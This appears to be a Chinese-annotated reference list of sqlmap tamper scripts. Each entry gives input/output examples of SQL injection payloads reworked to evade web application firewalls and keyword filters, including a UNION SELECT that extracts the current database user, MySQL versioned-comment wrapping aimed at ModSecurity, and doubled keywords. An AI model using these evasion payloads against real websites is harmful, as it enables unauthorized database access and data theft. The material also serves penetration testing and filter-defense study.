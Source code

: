 charunicodeencode.py 对未进行url编码的字符进行unicode编码  
Example:  
* Input: SELECT FIELD%20FROM TABLE  
* Output: `%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045'`  
Requirement:  
* ASP  
* ASP.NET  

equaltolike.py 以“like”替代“=”  
Example:  
* Input: SELECT * FROM users WHERE id=1  
* Output: SELECT * FROM users WHERE id LIKE 1  

halfversionedmorekeywords.py在每个关键字前添加条件注释  
Example:  
* Input: `value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa`  
* Output: `value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND 'QDWa'='QDWa`  
Requirement:  
* MySQL < 5.1  

ifnull2ifisnull.py 以“IF(ISNULL(A), B, A)”替换“IFNULL(A, B)”  
Example:  
* Input: IFNULL(1, 2)  
* Output: IF(ISNULL(1), 2, 1)  
Requirement:  
* MySQL  
* SQLite (possibly)  
* SAP MaxDB (possibly) 
 
modsecurityversioned.py 条件注释  
Example:  
* Input: 1 AND 2>1--  
* Output: `1 /*!30000AND 2>1*/--`  
Requirement:  
* MySQL  

modsecurityzeroversioned.py 条件注释，0000   
Example:  
* Input: 1 AND 2>1--  
* Output: `1 /*!00000AND 2>1*/--`  
Requirement:  
* MySQL  

multiplespaces.py 添加多个空格  
Example:   
* Input: UNION SELECT  
* Output:  UNION&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; SELECT  

nonrecursivereplacement.py 可以绕过对关键字删除的防注入  
Example:  
* Input: 1 UNION SELECT 2--  
* Output: 1 UNUNIONION SELSELECTECT 2--  
